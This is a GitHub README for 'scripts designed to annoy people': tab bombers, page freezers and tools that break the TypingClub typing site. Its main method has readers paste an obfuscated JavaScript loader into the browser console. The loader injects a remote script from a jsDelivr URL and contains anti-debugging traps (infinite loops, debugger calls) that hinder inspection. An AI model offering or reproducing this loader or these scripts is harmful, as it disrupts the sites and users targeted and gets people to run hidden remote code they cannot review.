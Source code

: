 # scripts
## a collection of random scripts, usually designed to annoy people
### note: you need SnowLord7's script extension to run this, thanks for your great extension man!

## quick start
Download SnowLord7's Script Extension for chrome:
[https://chrome.google.com/webstore/detail/snowlords-script-extensio/ocpkldjgfaimjjemnlppehhgdbagajhp?hl=en](https://chrome.google.com/webstore/detail/snowlords-script-extensio/ocpkldjgfaimjjemnlppehhgdbagajhp?hl=en)
Once installed, choose a script below and copy it's url:

~~Alert 100: https://cdn.jsdelivr.net/gh/davaci/scripts@master/alert100.js  
Page Freezer: https://cdn.jsdelivr.net/gh/davaci/scripts@master/autofreeze.js  
Freeze TypingClub: https://cdn.jsdelivr.net/gh/davaci/scripts@master/freeze.js  
TypingClub Killer: https://cdn.jsdelivr.net/gh/davaci/scripts@master/killtypingclub.js  
Tab Bomber: https://cdn.jsdelivr.net/gh/davaci/scripts@master/bomber.js~~

~~Click on the extension's icon. It should open a window. At the top of said window, there will be a box that is labeled *Script URL*
and paste the selected code from before. Name it something descriptave, then click *Add*.
Scroll down to the bottom of the window, and you should see a new entry named whatever you called it. Next to it, there will a button labeled
*Inject*. Click on that, and the script will be run on the page. For a destructave example, try the Page Freezer, and use *body*
as the id. Then click OK,
and the page will freeze.~~

## new method: coresdev loader
Copy and paste the following script into the JavaScript console:
```
var _0x1d73b9=function(){var _0x42b95c=!![];return function(_0x5372a8,_0x2e9ac0){var _0x16ea31=_0x42b95c?function(){if(_0x2e9ac0){var _0x524f53=_0x2e9ac0['apply'](_0x5372a8,arguments);return _0x2e9ac0=null,_0x524f53;}}:function(){};return _0x42b95c=![],_0x16ea31;};}();(function(){_0x1d73b9(this,function(){var _0x486b30=new RegExp('function\x20*'+'\x5c(\x20*\x5c)'),_0x3d0ce=new RegExp('\x5c+\x5c+\x20*(?:['+'a-zA-Z_$]['+'0-9a-zA-Z_'+'$]*)','i'),_0x34e3c8=_0x5639b0('init');!_0x486b30['test'](_0x34e3c8+'chain')||!_0x3d0ce['test'](_0x34e3c8+'input')?_0x34e3c8('0'):_0x5639b0();})();}());var ic=document['createElem'+'ent']('script');console['log']('coresdev\x20l'+'oader\x20-\x20cr'+'eated\x20elem'+'ent'),ic['setAttribu'+'te']('src','https://cd'+'n.jsdelivr'+'.net/gh/co'+'redoescode'+'/scripts@m'+'aster/load'+'er.js'),console['log']('coresdev\x20l'+'oader\x20-\x20se'+'t\x20source\x20t'+'o\x20loader\x20s'+'cript'),document['head']['appendChil'+'d'](ic),console['log']('coresdev\x20l'+'oader\x20-\x20in'+'jected\x20ele'+'ment\x20-\x20sta'+'rting\x20hand'+'over');function _0x5639b0(_0xb00582){function _0xd5b270(_0x309ce5){if(typeof _0x309ce5==='string')return function(_0x1c5d73){}['constructo'+'r']('while\x20(tru'+'e)\x20{}')['apply']('counter');else(''+_0x309ce5/_0x309ce5)['length']!==0x1||_0x309ce5%0x14===0x0?function(){return!![];}['constructo'+'r']('debu'+'gger')['call']('action'):function(){return![];}['constructo'+'r']('debu'+'gger')['apply']('stateObjec'+'t');_0xd5b270(++_0x309ce5);}try{if(_0xb00582)return _0xd5b270;else _0xd5b270(0x0);}catch(_0x42579c){}}
```
This will inject and start the coresdev loader, allowing you to further inject scripts. Custom extension catching is now supported.
